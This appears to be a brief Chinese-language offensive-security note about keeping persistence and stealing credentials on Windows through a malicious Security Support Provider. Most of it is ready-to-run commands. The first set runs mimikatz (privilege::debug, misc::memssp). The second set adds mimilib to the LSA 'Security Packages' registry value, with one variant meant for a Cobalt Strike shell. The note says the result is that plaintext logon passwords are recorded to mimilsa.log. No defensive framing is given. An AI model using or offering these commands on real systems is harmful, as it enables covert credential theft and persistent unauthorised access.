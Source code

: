 基于验证DLL加载
SSP（Security Support Provider）：实现身份认证和权限维持。
## Method 1: mimikatz
```powershell
.\mimikatz.exe
privilege::debug
misc::memssp
```
然后`C:\Windows\System32\mimilsa.log`会记录登录的账号密码

## Regedit

```powershell
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
#CS中修改注册表中的值
shell echo yes | reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```
然后`C:\Windows\System32\mimilsa.log`会记录登录的账号密码